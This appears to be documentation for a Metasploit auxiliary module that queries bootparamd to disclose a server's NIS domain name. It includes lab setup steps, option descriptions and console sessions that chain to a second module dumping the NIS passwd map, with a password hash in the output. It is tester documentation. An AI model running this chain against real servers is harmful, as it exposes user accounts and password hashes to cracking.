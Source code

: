 ## Introduction

From the `bootparamd(8)` man page:

> bootparamd is a server process that provides information to diskless clients necessary for booting. It consults the /etc/bootparams file to find the information it needs.

The module documented within will allow a tester to disclose the NIS
domain name from a server running `bootparamd`. After knowing the domain
name, the tester can follow up with `auxiliary/gather/nis_ypserv_map` to
dump a map from a compatible NIS server (running as `ypserv`).

## Setup

Set up NIS as per <https://help.ubuntu.com/community/SettingUpNISHowTo>.
If the link is down, you can find it via the Wayback Machine.

After that is done, install `bootparamd` however your OS provides it.

Make sure you add a client to the `bootparams` file, which is usually at
`/etc/bootparams`.

Here is an example `bootparams` file (courtesy of
[@bcoles](https://github.com/bcoles)):

```
clientname root=nfsserver:/export/clientname/root
```

You can read the `bootparams(5)` man page for more info.

Lastly, the client should be added to `/etc/hosts` if it isn't already
resolvable.

## Options

### PROTOCOL

Set this to either TCP or UDP. UDP is the default due to `bootparamd`.

### CLIENT

Set this to the address of a client in the target's `bootparams` file.
Usually this is a host within the same network range as the target.

### XDRTimeout

Set this to the timeout in seconds for XDR decoding of the response.

## Usage

```
msf > use auxiliary/gather/nis_bootparamd_domain
msf auxiliary(gather/nis_bootparamd_domain) > set rhost 192.168.33.10
rhost => 192.168.33.10
msf auxiliary(gather/nis_bootparamd_domain) > set client 192.168.33.10
client => 192.168.33.10
msf auxiliary(gather/nis_bootparamd_domain) > run

[+] 192.168.33.10:111 - NIS domain name for host ubuntu-xenial (192.168.33.10) is gesellschaft
[*] Auxiliary module execution completed
msf auxiliary(gather/nis_bootparamd_domain) >
```

After disclosing the domain name, you can use
`auxiliary/gather/nis_ypserv_map` to dump a map from a compatible NIS
server.

```
msf auxiliary(gather/nis_bootparamd_domain) > use auxiliary/gather/nis_ypserv_map
msf auxiliary(gather/nis_ypserv_map) > set rhost 192.168.33.10
rhost => 192.168.33.10
msf auxiliary(gather/nis_ypserv_map) > set domain gesellschaft
domain => gesellschaft
msf auxiliary(gather/nis_ypserv_map) > run

[+] 192.168.33.10:111 - Dumping map passwd.byname on domain gesellschaft:
list:*:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
ubuntu:$6$LXFAVGTO$yiCXi1KjLynOrapuhJE7tKnvdwknDMKiKM7Z8ZB19ht6CHmsS.CbUTm8q0cy5fFHEqA.Sg4Acl.0UtY.Y0JNE1:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
games:*:5:60:games:/usr/games:/usr/sbin/nologin
news:*:9:9:news:/var/spool/news:/usr/sbin/nologin
lp:*:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
sys:*:3:3:sys:/dev:/usr/sbin/nologin
backup:*:34:34:backup:/var/backups:/usr/sbin/nologin
uucp:*:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
systemd-resolve:*:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
man:*:6:12:man:/var/cache/man:/usr/sbin/nologin
bin:*:2:2:bin:/bin:/usr/sbin/nologin
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
sync:*:4:65534:sync:/bin:/bin/sync
systemd-network:*:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
uuidd:*:108:112::/run/uuidd:/bin/false
dnsmasq:*:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
root:*:0:0:root:/root:/bin/bash
sshd:*:110:65534::/var/run/sshd:/usr/sbin/nologin
systemd-bus-proxy:*:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
irc:*:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
messagebus:*:107:111::/var/run/dbus:/bin/false
_apt:*:105:65534::/nonexistent:/bin/false
mail:*:8:8:mail:/var/mail:/usr/sbin/nologin
syslog:*:104:108::/home/syslog:/bin/false
daemon:*:1:1:daemon:/usr/sbin:/usr/sbin/nologin
systemd-timesync:*:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
pollinate:*:111:1::/var/cache/pollinate:/bin/false
www-data:*:33:33:www-data:/var/www:/usr/sbin/nologin
proxy:*:13:13:proxy:/bin:/usr/sbin/nologin
lxd:*:106:65534::/var/lib/lxd/:/bin/false

[*] Auxiliary module execution completed
msf auxiliary(gather/nis_ypserv_map) >
```

